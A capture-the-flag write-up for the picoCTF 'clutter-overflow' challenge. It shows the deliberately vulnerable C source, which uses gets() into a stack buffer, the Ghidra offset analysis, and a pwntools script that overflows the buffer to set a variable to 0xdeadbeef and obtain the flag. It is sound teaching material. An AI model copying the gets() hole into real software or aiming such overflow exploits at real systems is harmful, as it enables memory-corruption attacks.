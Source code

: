 # clutter-overflow

The description for this challenge was as follows:

*Author: notdeghost*
*Description*

*Clutter, clutter everywhere and not a byte to use.*

*nc mars.picoctf.net 31890*

It was in the binary exploitation category and worth 150 points. In my humble opinion, it is an extremely easy challenge that would be great for someone extremely new to binary exploitation challenges. You were given the C source code for the challenge and the challenge binary.

**TL;DR Solution:** Overflow your input to overwrite the stack variable "code" and make it equal to 0xdeadbeef. The program will then print your flag.

So, when I initially ran the function, I got this result:
```
knittingirl@piglet:~/CTF/pico21_mini$ nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
aaaaaaaaaaa
code == 0x0
code != 0xdeadbeef :(
```
So, it looks like it is comparing the value of some variable, called code, with 0xdeadbeef. It is kind enough to show us the variable's current value as well, which is 0.

When we open up the C source code, we can see that if we are able to set the value of the code variable to 0xdeadbeef, it will print the contents of the flag file, giving us a win. We can also see that the program is getting our input with a gets() function and storing the content in a buffer of size 0x100 on the stack. This means that we can input more than 0x100 (256) characters, which will let us overwrite other variables on the stack. The most important of these is code. The C code is here in full:
```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
The main issue at this point is determining the exact offset between the beginning of clutter and the code variable. The idea here is to input padding that is the same length as this offset, then add the bytes for 0xdeadbeef at the end. One way to do this is by opening up the code in Ghidra. If we look at the main pane for the main function (the part with the assembly code), at the very top, we can see that it provides the exact locations on the stack of our two stack variables. The stack grows upward, so the clutter variable is the one at Stack[-0x118], and the code variable is the one at Stack[-0x10]. The difference between these two numbers is 0x108, or 264.
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[3]:     004006d2(W), 
                                                                                                   00400756(R), 
                                                                                                   0040078c(R)  
             undefined1        Stack[-0x118   local_118                               XREF[1]:     0040073d(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:004005fd(*), 
                                                                                          _start:004005fd(*), 00400e94, 
                                                                                          00400f38(*)  
        004006c7 55              PUSH       RBP

```
We can the put this all together for an exploit in which we send 264 bytes of padding, then the bytes for 0xdeadbeef. I am using pwntools for this exploit and won't explain it in too much detail, but I think the code is relatively self explanatory.

The final script was relatively simple:
```
from pwn import * 

#I used these lines for local debugging
#target = process('./clutter_overflow')

#This wasn't necessary since the program prints the values.
#If it didn't print the values, you could check it was working by viewing the contents of the addresses being compared on the line that this breaks at

#pid = gdb.attach(target, "\nb *main+143\ncontinue")

target = remote('mars.picoctf.net', 31890)


print(target.recvuntil(b'What do you see?'))

#This could be used in alternative way to find the padding. You would look at the value in code if this payload is passed, and determine the offset of the unique substring within the cyclic string.
payload = cyclic(1000)

padding = b'a' * 264
payload = padding
#This is an easy way to encode numeric values into bytes. In little endian, the bytes are '\xef\xbe\xad\xde\x00\x00\x00\x00
payload += p64(0xdeadbeef)

target.sendline(payload)

#Not necessary here, but it's good practice to put this at the end since if you are trying to open a shell, it will close immediately if this isn't here.
target.interactive()
```
And the result looked like this:
```
knittingirl@piglet:~/CTF/pico21_mini$ python3 clutter_overflow_payload.py 
[+] Opening connection to mars.picoctf.net on port 31890: Done
b' ______________________________________________________________________\n|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n|\'.____\'_^||/!\\@@@@@/!\\|| _\'______________.\'|==                    =====\n|\\|______|===============|________________|/|""""""""""""""""""""""""""\n" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  \n""\'\'""""\'\'"""""""""""""""\'\'""""""""""""""\'\'""""""""""""""""""""""""""""""\n""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""\n"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""\nMy room is so cluttered...\nWhat do you see?'
[*] Switching to interactive mode

code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{REDACTED}
[*] Got EOF while reading in interactive
$  

```
